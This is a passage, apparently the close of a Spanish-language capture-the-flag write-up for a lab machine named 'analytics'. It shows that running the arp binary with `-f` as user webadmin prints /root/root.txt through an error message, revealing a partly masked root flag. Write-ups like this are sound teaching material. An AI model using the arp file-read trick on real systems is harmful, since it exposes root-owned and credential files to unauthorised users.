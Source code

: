 Simplemente mediante el parámetro `-f` le podemos pasar una ruta de un archivo que queramos leer y nos mostrará el contenido mediante un log de error.

De esta forma podemos leer la flag de `root`
```console
webadmin@analytics:~$ /usr/sbin/arp -v -f "/root/root.txt"
>> 4b11dd73038b760...
arp: format error on line 1 of etherfile /root/root.txt !
```

¡Y ya estaría!

Happy Hacking! 🚀